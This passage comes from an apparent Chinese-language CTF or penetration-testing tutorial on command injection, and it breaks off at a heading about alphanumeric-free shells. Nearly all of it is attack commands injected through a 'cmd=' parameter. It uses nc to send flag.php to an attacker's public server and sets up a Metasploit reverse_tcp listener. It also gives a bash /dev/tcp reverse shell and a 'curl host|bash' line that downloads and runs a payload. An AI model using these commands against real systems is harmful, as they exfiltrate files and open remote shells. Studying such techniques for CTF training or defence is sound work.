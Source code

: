 

#### 6、使用nc反弹Shell

* 利用条件：要求目标服务器也有nc工具

```php
#1.公网服务器监听4444端口
nc -tlp 4444

#2.目标服务器执行如下命令
cmd=|nc -t 公网服务器IP 4444 < flag.php


-u参数调整为udp,当tcp不能使用的时候使用
#1.公网服务器监听4444端口
nc -ulp 4444
#2.目标服务器执行如下命令
cmd=|nc -u 公网服务器IP 4444 < flag.php
```



#### 7、msf反向回连

* 利用条件：目标服务器可以向可通信的公网服务器发起http请求

**1.公网服务器用msf监听：**

```php
use exploit/multi/handler
set payload linux/armle/shell/reverse_tcp
set lport 4444
set lhost xxx.xxx.xxx.xxx
set exitonsession false
exploit -j
```

**2.目标服务器执行下面命令**

```php
cmd=|bash -i >& /dev/tcp/xxxxx(vps公网ip)/4444 0>&1
#如果上面这条命令在浏览器上执行失败。那么要将上面这条命令写入公网服务器上的一个文件中，在msf开始监听后，在测试点执行下面命令
cmd=|curl x.x.x.165:8002/qwzf|bash
```

**3.公网服务器接收shell**
目标服务器上执行命令后，会在公网服务器上接收到，然后在公网服务器上执行以下命令getshell

```php
sessions -i 1
shell
```



------

## 无字母数字Shell
